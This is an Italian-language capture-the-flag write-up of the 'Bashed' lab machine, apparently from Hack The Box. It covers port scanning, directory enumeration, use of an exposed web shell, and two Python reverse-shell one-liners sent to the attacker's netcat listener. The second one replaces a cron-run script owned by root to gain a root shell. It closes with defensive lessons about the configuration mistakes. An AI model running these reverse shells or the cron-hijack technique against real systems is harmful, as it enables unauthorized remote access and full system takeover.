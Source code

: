 ** Author: Noto La Diega Alessandro ** 

** TARGET: 10.10.10.68 **

# INFORMATION GATHERING #

Iniziamo con un scan base di nmap

┌──(rot㉿kali)-[/home/kali]
└─# [[Nmap]] -sC -sV -p- 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:19 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.60% done; ETC: 09:19 (0:00:36 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.76 seconds

# ENUMERATION

Analizzando la pagina vediamo che il sito è in php e sembra rimandare a questa pagina github:
https://github.com/Arrexel/phpbash

Proviamo a trovare altre path del sito tramite [[Gobuster]]:
```Bash 

┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://10.10.10.68 -t 10 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/05 09:29:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
Progress: 2172 / 81644 (2.66%)^Z
zsh: suspended  gobuster dir -u http://10.10.10.68 -t 10 -w 
```

Nella path /dev/troviamo phpbash.php che semmbre essere una shell in php 

# EXPLOITATION


Scopriamo che siamo utenti www-data e che il sistema operativo è 
Linux bashed 4.4.0-62-generic 83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

Ci mettiamo in ascolto con nc sulla porta 4444
```
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...nc -nvlp 4444
```

Sulla macchina target vediamo se è installato pyhton
which python

utilizziamo questa stringa per ottenere sun revshell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.27",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

>mettiamo il nostro ip e la porta sulla quale siamo in ascolto 

Otteniamo cosi una shell

```bash

┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 35064
/bin/sh: 0: can't access tty; job control turned off
$ ls      
html
$ 
```

Ci muoviamo fino alle /home e otteiamo la flag

# PRIVESC 

Vediamo con sudo -l se possiamo eseguire qualcosa con privilegi da root

```bash 
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$ 
```

Dalla ultima stringa possiamo vedere che come utente www-data possiamo eseguire programmi come utente scriptmanager senza password.
Enumerando ulteriormente possiamo vedere che tutte le cartelle sono di proprietà root tranne la directory script che è di proprietà di scriptmanger

```bash

www-data@bashed:/$ ls -la
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 May  5 06:18 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 173 root          root              0 May  5 06:18 proc
drwx------   3 root          root           4096 Jun  2  2022 root
drwxr-xr-x  18 root          root            520 May  5 06:25 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 May  5 06:18 sys
drwxrwxrwt  10 root          root           4096 May  5 07:02 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
www-data@bashed:/$ cd scripts/
bash: cd: scripts/: Permission denied
www-data@bashed:/$ ls
```

con il comando seguente cambiamo utente in scriptmanager

```bash
www-data@bashed:/$ sudo -i -u scriptmanager
scriptmanager@bashed:~$ 
```

Nella cartella script troviamo due file 

```
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

È un semplice programma Python che scrive nel file test.txt.
Tuttavia, abbiamo visto nell'immagine precedente che test.txt è in esecuzione come root! Anche l'esecuzione del programma python sembra essere pianificata poiché l'ora dell'ultimo accesso al file test.txt è molto recente.
In effetti, lo script sembra essere eseguito ogni minuto!
Probabilmente è un cron job di proprietà di root.
Perché questa è una grande notizia per noi in quanto se cambio il contenuto nel file test.py per inviare una shell inversa, quella shell inversa verrà eseguita come root!


Prima cosa mi metto in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 5555
listening on [any] 5555 ...
```

modifico con nano il file .py con la shell inversa in python che segue:

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555)) 
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

Ottenaimo cosi un shell da root

```bash
┌──(rot㉿kali)-[/home/kali]
└─# nc -nvlp 5555    
listening on [any] 5555 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 42068
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# LESSON LEARN

1. Lo sviluppatore non avrebbe dovuto disporre di una web shell che consentisse pubblicamente l'accesso al suo sistema.
2. Una configurazione errata delle autorizzazioni può portare a conseguenze disastrose. Perché l'utente daemon web (www-data) è stato autorizzato a diventare un utente più privilegiato (scriptmanager)? Allo stesso modo, perché uno script creato da un utente non root (test.py) è stato eseguito come root? Questi sono noti come errori di configurazione della sicurezza. 
3. Lo sviluppatore non deve disporre di directory sensibili pubblicamente accessibili disponibili sul proprio server, in quanto come dimostrato è stata facilmente trovata da gobuster.
